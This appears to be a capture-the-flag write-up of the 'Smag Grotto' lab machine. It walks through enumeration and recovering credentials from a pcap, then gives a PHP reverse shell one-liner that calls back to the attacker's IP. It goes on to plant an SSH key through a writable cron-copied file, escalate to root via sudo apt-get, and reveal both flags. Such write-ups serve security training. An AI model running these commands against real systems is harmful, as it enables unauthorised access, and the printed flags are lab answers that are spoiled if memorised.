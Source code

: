 # Smag Grotto

Do you remember how to analyse packets?

# What is the user flag?

## Services Enumeration

Let's start by enumerating the services with Nmap. We discover that SSH is running on port `22/tcp` and apache is running on port `80/tcp`.

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

There is no `robots.txt` file, but using Gobuster, we discover a hidden location: `/mail`.

~~~
kali@kali:/data/Smag_Grotto$ gobuster dir -u http://10.10.107.212 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.107.212
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/29 12:35:02 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/mail (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/29 12:35:31 Finished
===============================================================
~~~

We are shown with a list of 3 emails in a web page, 1 of which contains an attached `*.pcap` file: http://10.10.107.212/aW1wb3J0YW50/dHJhY2Uy.pcap

## pcap file

We open the pcap in Wireshark. The network capture file only contains 10 frames and we immediately see the `POST` request to `/login.php` at frame 4. Right click on it and follow the HTTP stream to reveal the following information:

~~~
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
~~~

## Virtual host

The request is sent to the `development.smag.thm` domain, which is likely a virtual host that we will need to add to our `hosts` file. We are also provided with credentials.

Let's add the virtual host to our `/etc/hosts` file:

~~~
10.10.107.212	development.smag.thm
~~~

Now, connect to http://development.smag.thm and authenticate with `helpdesk:cH4nG3M3_n0w`. We are redirected to http://development.smag.thm/admin.php where we can now execute commands.

## Reverse shell

Start a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

And Send following command to the web form:

~~~
php -r '$sock=fsockopen("10.8.50.72",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~

We now have a reverse shell:

~~~
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.107.212] 49492
/bin/sh: 0: can't access tty; job control turned off
$ SHELL=/bin/bash script -q /dev/null
~~~

Listing the content of the `/home` folder reveals a user named `jake`. Unfortunately, the user flag in this folder is only accessible by `jake`.

~~~
www-data@smag:/var/www/development.smag.thm$ cd /home
cd /home
www-data@smag:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Jun  4 11:37 .
drwxr-xr-x 22 root root 4096 Jun  4 11:35 ..
drwxr-xr-x  4 jake jake 4096 Jun  5 11:05 jake
www-data@smag:/home$ cd jake
cd jake
www-data@smag:/home/jake$ ls -la
ls -la
total 60
drwxr-xr-x 4 jake jake 4096 Jun  5 11:05 .
drwxr-xr-x 3 root root 4096 Jun  4 11:37 ..
-rw------- 1 jake jake  490 Jun  5 11:05 .bash_history
-rw-r--r-- 1 jake jake  220 Jun  4 11:37 .bash_logout
-rw-r--r-- 1 jake jake 3771 Jun  4 15:12 .bashrc
drwx------ 2 jake jake 4096 Jun  4 11:39 .cache
-rw------- 1 root root   28 Jun  5 11:05 .lesshst
-rw-r--r-- 1 jake jake  655 Jun  4 11:37 .profile
-rw-r--r-- 1 root root   75 Jun  4 15:53 .selected_editor
drwx------ 2 jake jake 4096 Jun  4 15:27 .ssh
-rw-r--r-- 1 jake jake    0 Jun  4 11:45 .sudo_as_admin_successful
-rw------- 1 jake jake 9336 Jun  5 11:05 .viminfo
-rw-r--r-- 1 root root  167 Jun  5 09:29 .wget-hsts
-rw-rw---- 1 jake jake   33 Jun  4 13:02 user.txt
www-data@smag:/home/jake$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
~~~

## Lateral move

We obviously need to switch to `jake`. Let's check if there are interesting scheduled tasks:

~~~
www-data@smag:/home/jake$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
~~~

The last cronjob seems promising as it copies the content of a SSH public key to jake's `authorized_keys`. Moreover, the copied file is world-writable:

~~~
www-data@smag:/opt/.backups$ ls -l /opt/.backups/jake_id_rsa.pub.backup
ls -l /opt/.backups/jake_id_rsa.pub.backup
-rw-rw-rw- 1 root root 563 Jun  5 09:25 /opt/.backups/jake_id_rsa.pub.backup
~~~

Let's add our own public key (use `ssh-keygen -t rsa` to generate your own):

~~~
www-data@smag:/opt/.backups$ echo "ssh-rsa AAAAB3NzaC[REDACTED]+m7pk= kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
~~~

Wait 1 minute and connect as jake without password:

~~~
kali@kali:/data/vpn$ ssh jake@10.10.107.212
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
~~~

## User flag

From here, we eventually get the user flag:

~~~
jake@smag:~$ cat user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
~~~

# What is the root flag?

## Privilege escalation

Jake can run `apt-get` as `root` without password:

~~~
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) reveals that we can take advantage of this to run a privileged shell:

~~~
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
root@smag:/tmp# whoami
root
~~~

## Root flag

Let's get the root flag:

~~~
root@smag:/tmp# cd /root
root@smag:/root# ls -l
total 4
-rw-rw---- 1 root root 33 Jun  4 13:04 root.txt
root@smag:/root# cat root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
~~~
